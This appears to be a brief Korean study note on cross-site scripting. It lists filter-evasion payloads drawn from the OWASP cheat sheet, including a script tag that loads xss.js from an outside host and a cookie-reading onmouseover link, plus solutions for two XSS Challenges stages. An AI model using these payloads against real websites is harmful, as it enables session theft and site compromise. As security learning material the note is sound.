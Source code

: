 # Hacking

### 1. Script

```html
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

src에 스크립트 삽입

### 2. Img

```html
<IMG SRC="javascript:alert('XSS');">
```

대소문자 구분 X

위와 같이 scr에 스크립트 삽입

### 3. A

```html
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
<A HREF="http://127.0.0.1/">XSS</A>
```

속성 값 조작

### 4. Iframe

```html
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME src=http://3w.org/XSS.html <
```

src에 스크립트 삽입

이중 개방 앵글 브래킷

### 5. Style

```html
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

STYLE 시트 조작

[XSS Filter Evasion - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

## XSS Challenges

### Stage 4

```html
"><script>alert(document.domain);</script><"
```

p3 파라미터에 삽입

### Stage 5

```html
"><script>alert(document.domain);</script><"
```

input의 maxlength 변경